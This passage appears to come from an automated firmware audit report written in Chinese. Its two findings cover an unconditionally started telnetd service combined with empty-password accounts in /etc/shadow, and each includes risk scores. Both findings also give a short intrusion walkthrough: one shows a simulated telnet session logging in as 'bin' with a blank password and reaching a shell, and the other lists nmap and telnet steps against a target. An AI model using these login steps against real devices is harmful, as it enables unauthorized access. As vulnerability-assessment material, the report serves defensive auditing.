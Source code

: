 ### attack_chain-shadow_telnetd-auth_bypass

- **文件路径:** `etc/shadow`
- **位置:** `关联文件: /etc/shadow & /etc/rc.d/rcS`
- **类型:** network_input
- **综合优先级分数:** **9.25**
- **风险等级:** 9.5
- **置信度:** 9.0
- **触发可能性:** 9.0
- **查询相关性:** 10.0
- **阶段:** N/A
- **描述:** 完整攻击链确认：1) telnetd服务在/etc/rc.d/rcS无条件启动（无认证机制） 2) /etc/shadow中bin/daemon/adm/nobody/ap71账户密码为空 3) 攻击者连接23/tcp端口后可直接使用空密码登录获取shell权限。触发步骤：网络扫描发现23端口开放→telnet连接→输入空密码账户名→成功获取系统访问权限。成功概率评估：9.0（无需漏洞利用，仅依赖配置缺陷）。
- **代码片段:**
  ```
  攻击模拟：
  telnet 192.168.1.1
  Trying 192.168.1.1...
  Connected to 192.168.1.1
  login: bin
  Password: [直接回车]
  # whoami
  bin
  ```
- **关键词:** telnetd, bin, daemon, adm, nobody, ap71, /etc/shadow, 23/tcp
- **备注:** 关联发现：shadow-file-auth-weakness 和 network_service-telnetd-conditional_start_rcS41

---
### attack_chain-services_telnetd_auth_bypass

- **文件路径:** `etc/services`
- **位置:** `关联文件: /etc/services & /etc/rc.d/rcS & /etc/shadow`
- **类型:** network_input
- **综合优先级分数:** **9.25**
- **风险等级:** 9.5
- **置信度:** 9.0
- **触发可能性:** 9.0
- **查询相关性:** 10.0
- **阶段:** N/A
- **描述:** 完整攻击链确认：1) /etc/services定义telnet监听23/tcp端口 2) /etc/rc.d/rcS无条件启动telnetd服务 3) /etc/shadow存在空密码账户(bin/daemon等)。触发步骤：攻击者连接23/tcp→使用空密码账户登录→获取shell权限。约束条件：需服务端口暴露于网络。成功概率：9.0（仅依赖配置缺陷）
- **代码片段:**
  ```
  攻击路径:
  1. nmap扫描发现23/tcp开放
  2. telnet TARGET_IP
  3. 输入用户名'bin'密码为空
  4. 获得shell权限
  ```
- **关键词:** /etc/services, telnet, 23/tcp, telnetd, rcS, bin, daemon, /etc/shadow
- **备注:** 关联发现：configuration_load-services_config-etc_services 和 attack_chain-shadow_telnetd-auth_bypass。需补充验证/etc/inetd.conf是否覆盖此服务配置

---